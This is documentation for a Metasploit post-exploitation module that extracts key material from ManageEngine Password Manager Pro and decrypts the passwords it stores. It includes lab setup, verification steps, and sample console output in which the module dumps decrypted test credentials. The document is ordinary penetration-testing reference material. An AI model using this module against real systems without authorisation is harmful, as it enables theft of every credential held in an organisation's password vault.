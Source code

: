 ## Vulnerable Application

This post module gathers ManageEngine's Password Manager Pro credentials from
the local database. This information is encrypted but all the key materials can
be extracted from the application configuration files and the database itself.

This module simply starts to retrieve the database password, the database
encryption key and the data encryption key, which is used to decrypt passwords
also stored in the database. The result is displayed and stored in the
Metasploit database.

For now, only Linux hosts are supported. This module has been tested with
Password Manager Pro versions 10.5.0 (build 10501) and 12.1.0 (build 12123),
both installed on Ubuntu 20.04.4 (x64).

### Installation

Download `ManageEngine_PMP_64bit.bin` from one of the versions at
https://archives2.manageengine.com/passwordmanagerpro/ and run the installer as
root.

For example:
```
$ curl -O https://archives2.manageengine.com/passwordmanagerpro/12123/ManageEngine_PMP_64bit.bin
$ chmod a+x ManageEngine_PMP_64bit.bin
$ ./ManageEngine_PMP_64bit.bin
```
Follow the step-by-step instructions as they appear on the screen. Enter any
location for the installation base path and select "High availability primary
server".

First, launch Password Manager Pro (PMP) in standalone mode. Depending on the
version, it is sometimes required to accept the License Agreement and select
the license type. If it is the case, select the Free license (`f`).
```
$ cd <installation base path>/bin/
$ ./wrapper ../conf/wrapper_lin.conf
```

Once the first time boot process is finished, access the following URL to make
sure it works: https://127.0.0.1:7272

You can test the module with PMP in standalone mode or continue for a service
installation:
Stop PMP (`Ctrl-C`) and run:
```
$ bash ./pmp.sh install
$ /etc/init.d/pmp-service start
```
PMP will run in the background and logs are located in the `<installation base path>/logs`
folder.

You can refer to the vendor [documentation](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html).

### Setup

To properly test this module, some resources and accounts will need to be added to the database:
1. Access https://127.0.0.1:7272 and login as the main administrator with the default credentials (`admin`:`admin`):
1. Go to the `Resources` section on the left hand panel.
1. In the main panel, select `Add Resource` and `Add Manually`
1. Fill in the required fields (select any type of resource) and click `Save & Proceed`
1. Start adding accounts to this resource by filling the necessary fields and click `Add`
1. Once you have some accounts added, click `Save`
1. Repeat the process to add other resources/accounts


## Verification Steps

1. Install the application (see #Installation)
1. Start msfconsole
1. Get a session
1. Do: `use post/linux/gather/manageengine_password_manager_creds`
1. Do: `run verbose=true session=1`
1. **Verify** the installation is correctly detected
1. **Verify** all the key material is retrieved
1. **Verify** all the accounts are enumerated with their decrypted password
1. Do: `creds`
1. **Verify** the credentials are correctly stored in the database

To test the installation path detection logic, you can repeat the process with
PMP launched both in standalone mode and as a service.

Also, this is interesting to test with both a shell and Meterpreter sessions.

Note that an issue in Meterpreter makes the service detection logic fail to
detect the installation path. The other process detection works normally, so it
doesn't block the module execution.

## Options

### INSTALL_PATH

The Password Manager Pro installation path. If not provided, the module will
try its best to detect it.

### PG_HOST

The PostgreSQL host. Password Manager Pro run PostgreSQL locally by default, so
the default value is `127.0.0.1`.

### PG_PORT

The PostgreSQL port. Default is 2345.

## Scenarios

### Meterpreter session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/manageengine_password_manager_creds) > run verbose=true session=1

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[-] `/etc/init.d/pmp-service` is not a symlink and the installation path cannot be detected
[*] Trying to detect path from the Password Manager related processes
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/manageengine_password_manager_creds) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```

### Shell session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/manageengine_password_manager_creds) > run verbose=true session=2

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Account Notes    Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/manageengine_password_manager_creds) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```
